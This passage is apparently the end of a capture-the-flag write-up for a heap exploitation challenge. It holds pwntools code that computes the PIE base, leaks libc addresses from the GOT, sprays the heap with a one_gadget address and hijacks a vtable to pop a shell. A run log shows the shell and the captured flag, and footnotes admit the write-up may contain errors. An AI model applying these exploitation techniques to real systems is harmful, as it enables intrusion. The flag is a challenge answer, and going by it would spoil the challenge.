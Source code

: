 I'll use that information to calculate the PIE base:

```python
def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    return 'bamboo' if b'crunch' in r.recvline() else b'food'
context.binary.address = pie_leak - (0x2e7d78 if checkWhich(1) == 'bamboo' else 0x2e7d50)
```

The next part is almost robotic: leaking libc from the GOT.

```python
context.libc = context.libc_database.libc_find({f:leak(context.binary.got[f]) for f in ['malloc', 'free']})
```

Finally, I just need to set `favorites->_vtable = &one_gadget` to win. I flood the heap with copies of `one_gadget` and leak out its position accordingly to pop a shell:

```python
og = context.libc.select_gadget(1) # (2) doesn't work; memset() in chall.cc was optimised out in the actual binary...
alloc(2, pack(og)*0x1ff) # flood the heap with the one_gadget to make finding heap offset easier
fakeFood(pack(heapbase+next(i for i in range(0,0x5000,0x800) if leak(heapbase+i) == og)))
flush()
Eat()
r.interactive()
```

That's the end. Fun challenge.

```python
[+] Opening connection to mc.ax on port 31707: Done
[*] heap: 0x559d3b513000
[*] PIE: 0x559d39fd3000
[*] found libc! id: libc6_2.27-3ubuntu1.4_amd64
[*] one_gadget: 0x7f8d39985432
[*] Switching to interactive mode
idx:
name:
choice:
$ ls
flag.txt
run
$ cat flag.txt
flag{hijacking_vtables_like_321_4243f93}
```

## Footnotes

1. Necessarily, this writeup will be riddled with misinformation and mistakes. Don't take this as gospel, read the sources for yourself, and make a PR on this writeup if there's a mistake you really care about.
2. This is not the proper terminology and I won't pretend I know what it ought to be.
3. This doesn't happen at all in reality. It's almost impossible to remerge any of the allocations back into `malloc_arena->top`, meaning that most allocations remain confined to their own tcaches (and fastbins/smallbins if necessary), The experiment here worked as a matter of coincidence: when `string.size()` is in the range [0x10, 0x1f), a `malloc(0x1f)` call is made to handle it. This just-so-happens to land in `tcache[size=0x30]`, which is also host to Food/Bamboo structs.
4. I'm still not sure about this part. The code seems to indicate vice versa, but either way it's still a 1/2 chance per loop.
